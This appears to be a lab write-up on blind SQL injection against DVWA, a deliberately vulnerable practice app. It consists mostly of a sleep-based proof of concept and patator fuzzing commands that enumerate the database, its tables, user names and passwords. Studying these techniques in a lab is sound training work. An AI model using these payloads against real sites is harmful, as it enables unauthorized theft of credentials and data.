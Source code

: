 ```yaml
---
category: Uncategorized
tags: []
---
```

LOW

[[Patator]]

http://dvwa.local/vulnerabilities/sqli_blind/?id=1

POC:
```
1' AND sleep (10)-- - 
```

Find the length of the database:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and length(database())='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Retrieve the name of the database:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring(database(),RANGE0,1))='RANGE1&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-4" 1="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

Find number of databases:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(schema_name) from information_schema.schemata)='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Find names of databases:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT schema_name from information_schema.schemata LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-1" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`information_schema` and `dvwa`

Enumerate dvwa tables:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(table_name) from information_schema.tables where table_schema='dvwa')='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Enumerate the table names:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT table_name from information_schema.tables where table_schema='dvwa' LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-1" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```


```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`guestbook` and `users`

Enumerate `users` table:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

There are 8 columns, enumerate the names of the columns:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT column_name from information_schema.columns where table_schema='dvwa' and table_name='users' LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`user_id`, `first_name`, `last_name`, `user`, `password`, `avatar`, `last_login` and `failed_login`

Enumerate `first_name` and `users`
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(first_name) from dvwa.users)='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Enumerate first_name:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT first_name from dvwa.users LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`admin`, `Gordon`, `Hack`, `Palbo`, `Bob`

Enumerate users:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT user from dvwa.users LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

Enumerate passwords:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT password from dvwa.users LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

MEDIUM

Same as above, however, the `'` needs to be removed from all payloads, such as:

POC:
```
1 AND sleep (10)-- - 
```